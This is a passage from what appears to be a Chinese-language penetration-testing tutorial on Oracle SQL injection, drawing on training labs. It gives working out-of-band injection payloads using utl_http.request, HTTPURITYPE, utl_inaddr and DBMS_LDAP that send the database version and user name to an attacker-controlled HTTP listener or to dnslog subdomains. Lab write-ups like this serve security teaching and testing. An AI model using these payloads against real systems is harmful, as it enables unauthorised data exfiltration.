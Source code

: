 ```
#子查询数据库版本信息并访问python起的http服务
?id=1 and utl_http.request('http://192.168.100.130:4455/'||(select banner from sys.v_$version where rownum=1))=1--

#http访问时可以将||进行URL编码
?id=1 and utl_http.request('http://192.168.100.130:4455/'%7C%7C(select banner from sys.v_$version where rownum=1))=1--
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627464897258-175be638-08f8-4355-8ce8-e2552bfdd355.png#align=left&display=inline&height=372&margin=%5Bobject%2Object%5D&name=image.png&originHeight=744&originWidth=1868&size=59899&status=done&style=none&width=934)
可以看到成功获取了数据
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627464921197-61542222-97e4-4941-b1d9-ca5bdcec6fe2.png#align=left&display=inline&height=234&margin=%5Bobject%2Object%5D&name=image.png&originHeight=468&originWidth=1454&size=124719&status=done&style=none&width=727)


## 2、utl_inaddr.get_host_address()函数
```
#使用dnslog外带数据
?id=1 and (select utl_inaddr.get_host_address((select user from dual)||'.eeaijt.dnslog.cn') from dual)is not null --
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627465955162-98de91a3-8382-4073-bcf3-18728762e3f1.png#align=left&display=inline&height=343&margin=%5Bobject%2Object%5D&name=image.png&originHeight=686&originWidth=1664&size=42677&status=done&style=none&width=832)
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627465968725-e5b0236e-0e8d-4aa2-8556-eb6fbf6e935f.png#align=left&display=inline&height=283&margin=%5Bobject%2Object%5D&name=image.png&originHeight=566&originWidth=1680&size=59996&status=done&style=none&width=840)
## 3、SYS.DBMS_LDAP.INIT()函数
网上说是可以使用，我试着不行，收不到数据，不知道是不是环境问题。
```
?id=1 and (select SYS.DBMS_LDAP.INIT((select user from dual)||'.51prg6.dnslog.cn',80) from dual)is not null --

?id=1 and (select DBMS_LDAP.INIT((select user from dual)||'.51prg6.dnslog.cn',80) from dual)is not null --
```
## 4、HTTPURITYPE()函数
```
?id=1 and (select HTTPURITYPE('http://192.168.100.130:4455/'||(select user from dual)).GETCLOB() FROM DUAL)is not null --
```
同样需要python起一个http服务，或者nc创建监听
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627466748565-80964d64-450b-46fc-8f89-77bdb55ce3cd.png#align=left&display=inline&height=419&margin=%5Bobject%2Object%5D&name=image.png&originHeight=838&originWidth=1878&size=78666&status=done&style=none&width=939)
虽然访问404，但是同样成功外带数据。
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627466760517-a4a23a26-b2d0-4ea8-96c9-3a7c5470b395.png#align=left&display=inline&height=230&margin=%5Bobject%2Object%5D&name=image.png&originHeight=460&originWidth=1454&size=97022&status=done&style=none&width=727)
# 0x08 总结
Oracle数据库注入跟日常的注入其实没有什么太大的分别，需要注意数据类型的一致性和常用表名列名的不同即可，在sql注入的原理上都是拼接sql语句并执行。在实战中企业还是有很大部分使用Oracle数据库，故在此进行分析总结，希望能够对渗透测试人员有所帮助。
以上测试靶场采用墨者学院Oracle注入靶场、掌控安全Oralce注入靶场以及本地搭建的Oracle数据库，在实战中可能会遇到waf等安全设备的拦截，后续将针对Oracle数据库waf绕过编写一篇文章，敬请期待ing～
